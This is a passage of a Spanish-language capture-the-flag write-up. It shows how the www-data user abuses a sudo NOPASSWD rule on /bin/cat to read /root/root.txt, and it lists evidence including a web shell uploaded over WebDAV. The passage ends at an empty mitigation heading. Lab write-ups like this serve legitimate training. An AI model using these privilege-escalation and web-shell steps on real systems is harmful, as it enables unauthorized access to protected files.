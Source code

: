 
```bash
www-data@ubuntu:/home/merlin$ sudo -l                                                                                                                                                                             
sudo -l                                                                                                                                                                                                           
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```
### Interpretación del `sudo -l`

- `www-data` puede ejecutar `/bin/cat` como **cualquier usuario** (ALL) sin necesidad de contraseña. Esto es un hallazgo crítico: potencia de lectura sobre cualquier fichero del sistema sin restricciones. 

## Escalada a root (abuso de sudo NOPASSWD para /bin/cat)

Con la capacidad de ejecutar `/bin/cat` como root (o como cualquier usuario) sin contraseña, se puede **leer** directamente ficheros sensibles, incluido `/root/root.txt`.

Comando ejecutado:

```bash
www-data@ubuntu:/home/merlin$ sudo /bin/cat /root/root.txt
sudo /bin/cat /root/root.txt
```

Y con eso se obtuvo la flag de root.

### ¿Por qué esto funciona?

Sudo con `NOPASSWD` no requiere contraseña para ejecutar el binario autorizado. Si se autoriza `/bin/cat` sobre _ALL_ usuarios, entonces con `sudo /bin/cat /root/archivo` se leen ficheros que normalmente sólo root puede leer. Aunque no da una shell root interactiva, permite extraer información crítica y, potencialmente, otros secretos que permitan una escalada adicional.


## Evidencia y trazas relevantes

- `nmap` mostrando Apache/2.4.18
- `dirsearch` mostrando `401` en `/webdav/`
- `cadaver` mostrando `Listing collection` y subida de `shelsita.php`
- `sudo -l` output mostrando `User www-data may run the following commands on ubuntu: (ALL) NOPASSWD: /bin/cat`
- `sudo /bin/cat /root/root.txt` lectura de `root.txt`


## Recomendaciones de mitigación
